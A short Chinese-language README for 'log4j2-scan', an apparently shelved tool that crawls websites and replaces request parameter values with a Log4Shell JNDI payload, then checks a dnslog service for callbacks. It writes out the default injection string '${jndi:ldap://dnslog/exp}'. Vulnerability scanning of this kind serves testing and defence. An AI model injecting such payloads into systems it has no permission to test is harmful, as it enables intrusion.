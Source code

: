 # log4j2-scan
## 介绍
log4j2-scan是一款利用浏览器爬虫爬取网站所有链接，并替换参数值为jndi形式，旨在遍历所有链接发现log4j2漏洞的工具。  
工具流程：






脚本做了如下工作
1. 自动获取dnslog值
2. 使用crawlergo爬虫爬取链接，然后替换get请求中所有=号后的值和post请求data中的=后值为payload.m默认构造是${jndi:ldap://dnslog/exp}
3. 将上述请求参数重新发送 
4. 自动检测dnslog是否存在结果



脚本在自定义的靶场环境里可以跑出log4j2所在的链接并成功构造参数触发。但是crawlergo在docker容器里可能因为是浏览器原因工作不正常，时而能跑全链接时而不行，所以这个项目暂时搁浅了




